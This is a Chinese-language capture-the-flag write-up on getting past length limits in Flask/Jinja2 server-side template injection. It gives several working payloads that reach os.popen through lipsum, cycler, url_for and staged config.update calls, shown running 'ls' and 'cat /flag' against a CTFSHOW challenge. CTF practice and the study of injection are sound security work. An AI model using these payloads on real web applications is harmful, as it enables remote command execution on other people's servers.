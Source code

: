 # Py flask SSTI 长度限制绕过

---

起因是做题的时候，发现一道ssti题对长度做了限制，

我尽我所能的去缩短可是最后还是超过长度限制



### 解决方法

#### 使用长度较短的方式

但是有时候也会超出

```(空)
 {{lipsum.__globals__['os'].popen('tac ../flag').read()}}

 
{{cycler.__init__.__globals__.os.popen('ls').read()}}

{{url_for.__globals__.os.popen('ls /').read()}}
```



#### 使用config存储

在 Flask 中，`config` 对象用于保存配置信息，通常用于存储各种设置和参数，如数据库连接字符串、密钥、环境配置等。你可以通过 `app.config` 来访问和设置配置项。

并且`config` 对象实质上是一个字典的子类，可以像字典一样操作

利用`update`可以更新字典

我们将使用 Jinja 模板的 **set 语句**配合字典的 **update() 方法**来更新 **config 全局对象**

```python
{%set x=config.update(a=config.update)%}   
//一个a
{%set x=config.a(f=lipsum.__globals__)%}   
//lipsum.__globals__
{%set x=config.a(o=config.f.os)%}          
//lipsum.__globals__.os
{%set x=config.a(p=config.o.popen)%}       
//lipsum.__globals__.os.popen
{{config.p("cat /flag").read()}}  
```



```python
{%set x=config.update(l=lipsum)%}
 
{%set x=config.update(g=request.args.a)%}&a=__globals__
 
{%set x=config.update(f=config.l|attr(config.g))%}
 
{%set x=config.update(o=config.f.os)%}
 
{%set x=config.update(p=config.o.popen)%}
 
{%print(config.p(request.args.c).read())%}&c=cat /flag
```



```python
{{config.update(l=lipsum)}}
{{config.update(g=request.args.a)}}&a=__globals__
{{config.update(f=config.l)}}
{{config.update(f=f|attr(config.g))}}
{{config.update(f=config.l[config.g])}}
{{config.update(o=config.f.os)}}
{{config.update(p=config.o.popen)}}
{{config.p(request.args.c).read()}}&c=cat /flag
```



同时利用

```python
{%print(config)%}
```

可以查看并且确保值被正确的更新了



### 题目

#### CTFSHOW -单身杯-ezzz——ssti

用户名存在ssti

![image-20250118182208650](https://gitee.com/bx33661/image/raw/master/path/image-20250118182208650.png)

但是我们payload不能太长-最多40个字符

所以才用

```python
{%set x=config.update(a=config.update)%}   
{%set x=config.a(f=lipsum.__globals__)%}   
{%set x=config.a(o=config.f.os)%}          
{%set x=config.a(p=config.o.popen)%}  

{{config.p("ls /").read()}}
{{config.p("cat /flag").read()}}  
```

[Python Flask SSTI 之 长度限制绕过_python绕过长度限制的内置函数-CSDN博客](https://blog.csdn.net/weixin_43995419/article/details/126811287)